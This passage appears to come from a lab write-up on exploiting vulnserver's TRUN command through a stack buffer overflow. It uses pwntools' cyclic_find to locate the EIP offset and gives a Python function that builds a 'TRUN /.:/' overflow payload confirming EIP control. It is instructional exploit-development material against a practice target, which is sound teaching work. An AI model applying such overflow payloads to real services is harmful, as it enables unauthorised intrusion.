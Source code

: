 ![Selection_170](/assets/images/vulnserver/TRUN/Selection_170.png)

To find where this is in our buffer we can drop in to the REPL again and run cyclic find on our bytes:

```python
from pwn import *
cyclic_find(0x61616275)
```

To make sure we got the right offset we can once again update our payload method:

```python
def make_payload():
    prepend = b"TRUN /.:/"
    pattern = b"A"*2003
    eip = b"B"*4
    buffer_space = 5000 - len(pattern) - len(eip)
    payload_struct = pattern + eip + b'C'*buffer_space
    final_payload = prepend + payload_struct
    return final_payload
```

This can bee seen below where the EIP has been overwritten by four "B" characters ( Hex 0x42424242)

![Selection_171](/assets/images/vulnserver/TRUN/Selection_171.png)
